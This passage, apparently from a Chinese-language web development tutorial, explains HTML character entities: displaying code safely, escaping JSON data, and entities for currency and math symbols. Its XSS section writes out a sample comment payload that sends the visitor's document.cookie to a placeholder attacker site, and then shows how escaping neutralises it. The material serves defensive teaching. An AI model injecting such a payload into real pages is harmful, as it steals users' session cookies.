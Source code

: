 **方法二：使用`<pre>`和`<code>`标签**

这些标签会保留文本的格式，但仍需转义特殊字符：

```html
<pre><code>
&lt;div class="example"&gt;
  &lt;p&gt;这是一个例子&lt;/p&gt;
&lt;/div&gt;
</code></pre>
```

**方法三：使用现代工具库**

像Highlight.js、Prism.js这样的代码高亮库会自动处理转义问题。

### 2. 防止XSS攻击

跨站脚本攻击(XSS)是最常见的网络攻击之一。假设你的网站允许用户添加评论，如果不处理用户输入，攻击者可能插入恶意脚本：

```html
<script>document.location='http://攻击者网站?cookie='+document.cookie</script>
```

通过将用户输入中的特殊字符转换为字符实体，可以有效防止此类攻击：

```javascript
// 用户输入: <script>alert('XSS')</script>
// 转换后: &lt;script&gt;alert('XSS')&lt;/script&gt;
// 浏览器显示: <script>alert('XSS')</script>（而不执行脚本）
```

### 3. 处理数据传输中的特殊字符

在前后端数据交互过程中，特殊字符常常导致解析错误。例如，JSON数据中的特殊字符需要正确处理：

```javascript
// 不正确的JSON
{"message": "用户输入了"引号"和<标签>"}

// 正确的JSON（JavaScript自动转义）
{"message": "用户输入了\"引号\"和<标签>"}

// 在HTML中显示时还需要HTML转义
&lt;p&gt;用户输入了&quot;引号&quot;和&lt;标签&gt;&lt;/p&gt;
```

### 4. 国际化和特殊符号

当你的网站需要显示各种语言和特殊符号时，字符实体非常有用：

```html
<!-- 货币符号 -->
美元: &#36; ($)
欧元: &euro; (€)
英镑: &pound; (£)
日元: &yen; (¥)

<!-- 数学符号 -->
π值约等于3.14: &pi; ≈ 3.14
面积公式: S = &pi;r&sup2;
```
